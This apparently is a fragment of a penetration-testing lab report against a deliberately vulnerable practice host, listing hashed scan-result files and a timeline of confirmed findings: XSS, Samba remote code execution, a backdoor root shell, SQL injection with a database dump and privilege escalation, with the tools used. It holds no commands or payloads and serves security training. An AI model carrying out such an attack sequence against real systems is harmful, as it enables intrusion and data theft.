| nmap_metasploitable.txt | Port scan results | CyArt VAPT Analyst | 2025-08-18 | `01249ba214da4dcb2082c599c801f3590203bd9d00beb42c5758490133a1085e ` |
| nikto_scan.txt | Web scan results | CyArt VAPT Analyst | 2025-08-18 | `73ab9b00e1fefa22f8670dbfe559e7be143f2749a93a1a6f86205be936cc1382` |

---

### Post-Exploitation Detection Log (OpenVAS)

| Timestamp | Target IP | Vulnerability | PTES Phase | Confirmed by |
|-----------|-----------|---------------|------------|-------------|
| 2025-08-18 12:00:00 | 192.168.56.104 | XSS in DVWA | Exploitation | Burp Suite + Browser |
| 2025-08-18 12:15:00 | 192.168.56.104 | Samba RCE | Exploitation | Metasploit session |
| 2025-08-18 12:30:00 | 192.168.56.104 | Root Shell via backdoor | Post-Exploitation | Meterpreter |
| 2025-08-18 12:45:00 | 192.168.56.104 | SQL Injection — DB dump | Exploitation | sqlmap output |
| 2025-08-18 13:00:00 | 192.168.56.104 | Privilege escalation confirmed | Post-Exploitation | getuid → root |

---
